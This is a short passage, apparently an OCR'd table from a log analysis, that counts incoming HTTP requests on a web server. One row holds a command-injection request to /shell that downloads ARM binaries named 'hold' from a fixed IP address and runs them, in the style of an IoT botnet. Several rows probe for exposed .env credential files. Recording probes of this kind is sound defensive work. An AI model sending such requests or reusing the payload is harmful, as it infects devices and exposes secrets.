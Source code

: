 |  46 |                     9 | GET /shell?cd+/tmp;rm+holdarm+hold.arm7;wget+http:/\x5C/193.143.1.66/bins/hold.arm7;chmod+777+hold.arm7;./hold.arm7+hold.jaws;wget+http:/\x5C/193.143.1.66/bins/hold.arm;chmod+777+hold.arm;./hold.arm+hold.jaws HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                           |
|  47 |                     9 | GET /packed/.env HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                           |
|  48 |                     9 | \x00\x0C\x00\x00\x10\x00\x00\x00\x00\x00\x00\x00\x00\x00                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                            |
|  49 |                     9 | GET /mailer/.env HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                           |
|  50 |                     9 | GET /club/.env HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                             |
|  51 |                     9 | GET /skin/.env HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                             |
|  52 |                     9 | GET /chai/.env HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                             |